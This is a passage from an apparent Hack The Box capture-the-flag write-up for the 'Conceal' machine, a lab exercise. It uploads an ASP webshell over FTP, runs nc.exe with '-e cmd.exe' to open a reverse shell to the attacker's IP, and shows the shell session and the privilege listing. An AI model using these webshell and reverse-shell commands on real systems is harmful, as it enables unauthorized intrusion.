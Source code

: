 Next, let's upload an .asp webshell so we can run commands on the server. I used the following webshell: [https://github.com/tennc/webshell/blob/master/fuzzdb-webshell/asp/cmd.asp](https://github.com/tennc/webshell/blob/master/fuzzdb-webshell/asp/cmd.asp)

```
# curl -t curl -T snow.asp ftp://10.10.10.116
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  1356    0     0  100  1356      0   4237 --:--:-- --:--:-- --:--:--  4237
```

We now have RCE and we can grab the user flag from the `Destitute` user directory.

![](/assets/images/htb-writeup-conceal/userflag.png)

### Privesc

The upload directory is located here: `C:\inetpub\wwwroot\upload\snow.asp`

To get a proper shell, we can upload `nc.exe` and run it with `C:\inetpub\wwwroot\upload\nc.exe -e cmd.exe 10.10.14.23 80`

```
# nc -lvnp 80
listening on [any] 80 ...
connect to [10.10.14.23] from (UNKNOWN) [10.10.10.116] 49684
Microsoft Windows [Version 10.0.15063]
(c) 2017 Microsoft Corporation. All rights reserved.

C:\Windows\SysWOW64\inetsrv>whoami
conceal\destitute

C:\Windows\SysWOW64\inetsrv>whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeShutdownPrivilege           Shut down the system                      Disabled
SeAuditPrivilege              Generate security audits                  Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeUndockPrivilege             Remove computer from docking station      Disabled
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
SeTimeZonePrivilege           Change the time zone                      Disabled
```